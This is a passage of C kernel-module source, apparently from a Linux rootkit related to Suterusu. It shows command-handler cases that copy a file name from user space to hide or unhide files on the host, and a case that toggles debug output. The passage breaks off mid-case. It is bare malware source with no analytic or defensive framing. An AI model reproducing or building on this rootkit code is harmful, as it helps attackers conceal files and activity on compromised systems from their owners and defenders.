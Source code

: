 ```c

            /* Hide file */
            case 3:
            {
                char *name;
                struct file_args file_args;

                DEBUG("Hiding file\n");

                if ( copy_from_user(&file_args, buf, sizeof(file_args)) )
                    return -EFAULT;

                name = suckerusu_kmalloc(file_args.len + 1, GFP_KERNEL);
                if ( ZERO_OR_NULL_PTR(name) )
                    return -ENOMEM;

                ret = copy_from_user(name, file_args.name, file_args.len);
                if ( ret )
                {
                    suckerusu_kfree(name);
                    return -EFAULT;
                }

                name[file_args.len] = 0;

                hide_file(name);
                break;
            }

            /* Unhide file */
            case 4:
            {
                char *name;
                struct file_args file_args;

                DEBUG("Unhiding file\n");

                if ( copy_from_user(&file_args, buf, sizeof(file_args)) )
                    return -EFAULT;

                name = suckerusu_kmalloc(file_args.len + 1, GFP_KERNEL);
                if ( ZERO_OR_NULL_PTR(name) )
                    return -ENOMEM;

                ret = copy_from_user(name, file_args.name, file_args.len);
                if ( ret )
                {
                    suckerusu_kfree(name);
                    return -EFAULT;
                }

                name[file_args.len] = 0;

                unhide_file(name);
                break;
            }

            /* Toggle debugging */
            case 5:
            {
                debug = (long)buf;

                DEBUG("Debugging set to: %ld\n", debug);
```